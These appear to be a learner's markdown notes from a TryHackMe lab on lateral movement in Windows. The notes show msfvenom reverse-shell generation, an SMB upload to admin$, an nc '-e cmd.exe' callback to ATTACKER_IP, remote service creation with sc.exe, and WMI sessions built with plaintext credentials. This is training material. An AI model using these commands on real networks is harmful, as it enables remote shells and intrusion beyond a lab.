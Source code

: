 ### Useful commands

```sh
# Generate rev shell payload
msfvenom -p windows/shell/reverse_tcp -f exe-service LHOST=ATTACKER_IP LPORT=4444 -o myservice.exe

# upload payload 'myservice.exe' using smbclient
smbclient -c 'put myservice.exe' -U t1_leonard.summers -W ZA '//thmiis.za.tryhackme.com/admin$/' <password>

# Listen for incoming connection
msfconsole -q -x "use exploit/multi/handler; set payload windows/shell/reverse_tcp; set LHOST lateralmovement; set LPORT 4444;exploit"

# Use runas to activate the another rev shell on target machine
runas /netonly /user:ZA.TRYHACKME.COM\t1_leonard.summers "c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4443"

# Above connection can be received as below
nc -lvp 4443

# In the above shell, create and start the service using uploaded payload
sc.exe \\thmiis.za.tryhackme.com create THMservice-3249 binPath= "%windir%\myservice.exe" start= auto 
sc.exe \\thmiis.za.tryhackme.com start THMservice-3249
```

## Moving Laterally using WMI

### Connecting to WMI From Powershell

- create a PSCredential object

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

- establish a WMI session using either of the following protocols:
	- **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using sc.exe.
	- **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

### Remote Process Creation Using WMI
- **Ports:**
    - 135/TCP, 49152-65535/TCP (DCERPC)
    - 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)  
- _Administrator_ group membership required

